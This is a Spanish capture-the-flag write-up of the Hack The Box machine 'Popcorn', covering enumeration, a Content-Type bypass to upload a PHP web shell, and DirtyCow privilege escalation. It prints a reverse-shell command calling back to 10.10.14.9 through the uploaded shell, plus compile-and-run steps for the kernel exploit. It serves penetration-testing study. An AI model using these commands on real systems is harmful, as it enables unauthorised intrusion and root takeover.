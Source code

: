 # Popcorn

**Sistema Operativo**: Linux

**Dificultad**: Media

**Técnicas Vistas**: Web Enumeration /
File Upload Vulnerability - Abusing Content-Type to Upload Malicious PHP File (RCE) /
Kernel Exploitation (2.6.31) - DirtyCow (/etc/passwd) [Privilege Escalation]


Te prepara para las **Certificaciones**: eWPT eJPT


![image](https://github.com/user-attachments/assets/240a731e-da22-4e49-a7c2-6caa504ee160)<br><br>


# Reconocimiento

Utilizando `nmap` vemos los puertos abiertos

![image](https://github.com/user-attachments/assets/53aa81d7-513b-46fc-8381-abdb8b50d65b)<br><br>


Utilizando `nmap` encontramos el nombre de dominio

![Image](https://github.com/user-attachments/assets/4b502893-40bc-4218-a91d-0cd1e0b2fa81)<br><br>

En `vim /etc/hosts` ponemos abajo `10.10.10.6 popcorn.htb`


Utilizando `gobuster` y el diccionario `seclists` encontramos las siguientes rutas:

![Image](https://github.com/user-attachments/assets/42b0a1d4-664a-4d2c-b1eb-17eab598e118)<br><br>

# Explotación Torrent Hoster (subida de archivos)

Descargamos el torrent de kali linux

![Image](https://github.com/user-attachments/assets/099ddbf4-c66e-4764-b4d1-11dad8b6b0d1)<br><br>

Lo subimos en "Upload"

![Image](https://github.com/user-attachments/assets/6812018e-2943-4e59-91d8-bc87958f0cae)<br><br>

En "Edit this torrent" vemos que podemos subir una imagen (interceptamos con `Burpsuite`)

![Image](https://github.com/user-attachments/assets/bc983788-b3f6-4347-930c-2ab1b5fceff7)<br><br>

Solo valida el "Content-type" osea que si ponemos "image/jpeg" podemos subir un archivo ".php" con codigo malicioso

![Image](https://github.com/user-attachments/assets/f2d729b2-67eb-4750-99f2-881de0b0ce10)<br><br>

`http://popcorn.htb/torrent/upload/9ba2973f0afd6c7cdd5356efed489e3fb0cdf20f.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.9/443 0>%261"` Vamos a la ruta donde se sube el ".php" y ganamos acceso.<br><br>

# Escalamos privilegios

Utilizando `uname -a` vemos que la version del kernel es muy antigua. (La explotamos con este exploit https://www.exploit-db.com/exploits/40839)

![Image](https://github.com/user-attachments/assets/736dbc70-881e-4ae3-b485-072854d17756)<br><br>


Vamos a `/tmp` creamos un `nano dirty.c` y pegamos todo el exploit.
Lo compilamos asi `gcc -pthread dirty.c -o dirty -lcrypt`
Y lo explotamos asi `./dirty`

Nos convertimos en "firefart" y tiene privilegios "Root" -> `su firefart` y la contraseña que le asignamos.

Podemos leer la flag:

![Image](https://github.com/user-attachments/assets/11c14ebb-c0ae-4bb0-928b-70438514b660)<br><br>
